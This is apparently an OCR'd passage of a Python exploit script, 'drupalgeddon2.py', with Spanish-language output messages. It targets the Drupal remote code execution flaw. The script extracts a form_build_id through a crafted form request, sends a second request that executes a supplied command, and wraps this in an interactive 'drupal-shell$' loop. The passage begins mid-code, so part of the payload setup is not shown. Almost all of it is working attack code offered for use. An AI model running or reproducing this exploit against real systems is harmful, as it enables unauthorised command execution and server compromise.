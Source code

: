 ```python
        '_triggering_element_name': 'name'
    }

    try:
        r = requests.post(url_target, data=data, params=params, timeout=10)
    except requests.exceptions.RequestException as e:
        print(f"[!] Error de conexión: {e}")
        return

    match = re.search(r'name="form_build_id" value="([^"]+)"', r.text)
    if not match:
        print("[!] No se pudo extraer el form_build_id.")
        return

    form_build_id = match.group(1)

    # Paso 2: Ejecutar comando
    params = {'q': f'file/ajax/name/#value/{form_build_id}'}
    data = {'form_build_id': form_build_id}

    try:
        r = requests.post(url_target, data=data, params=params, timeout=10)
        r.encoding = 'utf-8'
        output = r.text.split("[{")[0].strip()
        print(output if output else "[*] Comando ejecutado pero sin salida.")
    except Exception as e:
        print(f"[!] Error al ejecutar el comando: {e}")

def shell(url_target):
    print(f"\n[*] Shell interactiva sobre {url_target}")
    print("    Escribí 'exit' para salir.\n")
    while True:
        try:
            cmd = input("drupal-shell$ ")
            if cmd.strip().lower() in ['exit', 'quit']:
                print("[*] Cerrando sesión interactiva.")
                break
            if cmd.strip() == "":
                continue
            exploit(url_target, cmd)
        except KeyboardInterrupt:
            print("\n[*] Salida por usuario.")
            break

def usage():
    print("\nUso: python3 drupalgeddon2.py <URL>")
    print("Ejemplo: python3 drupalgeddon2.py http://192.168.100.220:8000\n")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        usage()
        sys.exit(1)

    target_url = sys.argv[1]
    shell(target_url)
```
{% endraw %}
